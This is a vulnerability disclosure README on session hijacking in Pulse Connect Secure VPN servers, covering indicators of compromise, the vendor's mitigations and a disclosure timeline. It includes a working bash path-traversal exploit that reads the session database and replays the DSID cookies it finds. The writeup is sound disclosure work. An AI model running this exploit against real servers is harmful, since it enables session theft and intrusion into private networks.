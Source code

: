 Session hijacking in PulseSecure Server
=======================================
Depending on the configuration, all versions are affected including latest release 9.0R3.4.

See the vendor's response for the gory configuration details.


Disclaimer
----------
**Please note that on a fully patched Pulse server this vulnerability is not exploitable by itself and is only useful under very specific circumstances.**
For this exploit to work the endpoint needs to have been previously compromised. A good candidate for this first step is CVE-2019-11510 that permits arbitrary file reading on the server before 9.0R3.4. **For later versions, another exploit is missing.**

This vulnerability could be related to CVE-2019-11540, which is inconsistently detailed:

* the researcher lists it as a [cross-site script inclusion on the cookie](https://devco.re/blog/2019/09/02/attacking-ssl-vpn-part-3-the-golden-Pulse-Secure-ssl-vpn-rce-chain-with-Twitter-as-case-study/)
* the CVE DB refers to it as a [session bypass](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11540)


Details
-------
There are several ways to authenticate to a Pulse Connect Secure server:

* traditional user/password authentication
* using a certificate (usually safely stored on a hardware token)

Assuming an attacker has read access to the server (e.g. using CVE-2019-11510 or some other form of arbitrary file read that may or may not be discovered in the future) and user/password login is in place, the attacker just needs to read plaintext passwords or hashes from the system and reuse these to authenticate semit-legitimely to the server. These passwords are found in the various data.mdb files of the Pulse server.

When using certificate authentication (or if the hashes couldn't be cracked) there's an alternate way that lets an attacker log to the appliance.
Because Pulse is a SSL VPN, the users' sessions are stored in a cookie named DSID that is granted by the server after the client authenticates.

An attacker getting access to valid cookies can try to reuse them to authenticate to web server and find all current valid sessions on the HTTP service:
```bash
curl --path-as-is -s -k "https://example.com/dana-na/../dana/html5acc/guacamole/../../../../../../../data/runtime/mtmp/lmdb/randomVal/data.mdb?/dana/html5acc/guacamole/" > randomVal_data.mdb
for cookie in $(strings randomVal_data.mdb | grep randomVal | cut -b 10- | grep '.\{32\}' | sort -u); do curl -i -k "https://example.com/" --cookie "DSID=$cookie" -L 2>&1 | grep Welcome; done
```

The cookie is reusable for a web session hijacking:

![Web session hijacking](./session_web.png)

But more worryingly, from this HTTP service the attacker can then try to connect to the VPN using the Java client:

![VPN session hijacking](./session_vpn.png)

This action is likely going to fail, because the user whose session is getting hijacked is probably already connected to the network.
But I have observed that if the client keepalive sent every second fails to reach the server (for instance due to a network timeout or the operating system going to sleep) the attacker may then hijack the user's network session and connect to the network behind the VPN.

I have successfully tested it in versions 9.0R3.2 and 9.0R3.4 which supposedly fixed a session hijacking vulnerability (CVE-2019-11540).

I think this is a security issue:

* sessions should be tied to an IP address, or at least to a subnet
* sessions should be forcibly closed by the server if the client keep-alive fails

This vulnerability hence permits hardware token bypass on an otherwise hardened setup that the arbitrary file read alone couldn't have completely defeated.


Indicators of compromise
------------------------
These actions from the attacker will likely leave a lot of discriminating failure logs because the attacker can not tell if the user's session has timed out yet and needs to repeatedly try to hijack the session until it works.

In case of a failure to connect:
```
    "[yy.yy.yy.yy] xxx - Remote address for user xxx changed from yy.yy.yy.yy to zz.zz.zz.zz"
    "[zz.zz.zz.zz] xxx - Closed connection to TUN-VPN port 443 after 1 seconds, with 0 bytes read (in 1 chunk) and 0 bytes written (in 2 chunks)"         // fails because user is still connected
```

In case of a successful connection:
```
    "[yy.yy.yy.yy] xxx - Remote address for user xxx changed from yy.yy.yy.yy to zz.zz.zz.zz"
    "[zz.zz.zz.zz] xxx - Max session timeout for xxxx (session:00000000)."
    "[zz.zz.zz.zz] xxx - Closed connection to TUN-VPN port 443 after 121 seconds, with 1420 bytes read (in 1 chunk) and 575 bytes written (in 3 chunks)"  // hijack has succeeded until the session timed out server-side (2 minutes)
```


Editor response
---------------
Below is the vendor's response, which is quite satisfactory: they are aware of the problem, and have rolled configuration options to prevent it.

That being said you do have to make sure your appliance is properly configured because as far as I can tell these are not used by default, at least not when upgrading the appliance from earlier versions.

> [...]
> We have made few improvement in our latest code and this issue can be mitigated with few configuration change.
> 
> 1. In the 9.0R3 or above, a new HTTPOnly session cookie option is available. This option will create a new session cookie with HTTPOnly attribute along with DSID session cookie. The new session cookie along with DSID will be needed to restore a user session.
> 
> In this case, attacker cannot replay the session even if they fetch the cookies from the appliance.
> 
> KB16127 - HTTPOnly and the Pulse Connect Secure (QID: 150045)
> https://kb.pulsesecure.net/articles/Pulse_Secure_Article/KB16127/
> 
> 2. We always recommend our customers to disable to Session Roaming option under the User Role. That will restrict the access to the attacker and they cannot login to the appliance.
> 
> KB29805 - Pulse Connect Secure: Security configuration best practices
> https://kb.pulsesecure.net/articles/Pulse_Secure_Article/KB29805/
> 
> 3. When the client does not communicate with the PCS, it will not immediately disconnect the session. After an ESP tunnel has been created, it will send keep-alive packets to the Pulse Connect Secure device to confirm that the device is accessible through ESP mode. If an ESP response is received, the Pulse or Network Connect client continues operating on the assumption that the ESP tunnel was successfully created. If the ESP tunnel is not successfully created, the client will send a keep-alive packet every one (1) second until the "ESP to SSL fallback time" is exceeded (by default, it is 15 seconds). When this time is exceeded, the Pulse or Network Connect client will fail back to SSL mode.
> 
> You can refer below KB for more details.
> 
> KB26667 - Encapsulating Security Payload (ESP) packet flow with Network Connect or Pulse client
> https://kb.pulsesecure.net/articles/Pulse_Secure_Article/KB26667/


Notes on the setup
------------------
Because Java plugin support has been dropped from browsers ages ago, getting a setup that could run the plugin was a bit painful. Here is most of the needed information to replicate it:
```
gquere@debian:~/Téléchargements$ cat /etc/debian_version
9.11
gquere@debian:~/Téléchargements$ md5sum google-chrome-stable_34.0.1847.137-1_amd64.deb
3cc7cd28bbb7bb3e5add19f27a6d0dda  google-chrome-stable_34.0.1847.137-1_amd64.deb
gquere@debian:~/Téléchargements$ md5sum libnss3_3.17.2-1.1+deb8u1_amd64.deb
4e459cf3591adc568d804f3369036938  libnss3_3.17.2-1.1+deb8u1_amd64.deb
gquere@debian:~/Téléchargements$ export LD_LIBRARY_PATH=./libnss/usr/lib/x86_64-linux-gnu/:./libnss/usr/lib/x86_64-linux-gnu/nss
gquere@debian:~/Téléchargements$ google-chrome-stable
```


Timeline
--------

* 2019-09-06: Vulnerability discovered
* 2019-09-09: Editor receives report
* 2019-09-17: Request ACK from editor
* 2019-10-15: Editor warned of imminent disclosure
* 2019-10-15: Partial disclosure to CERT-FR
* 2019-10-22: Editor ACK
* 2019-10-23: Editor answer
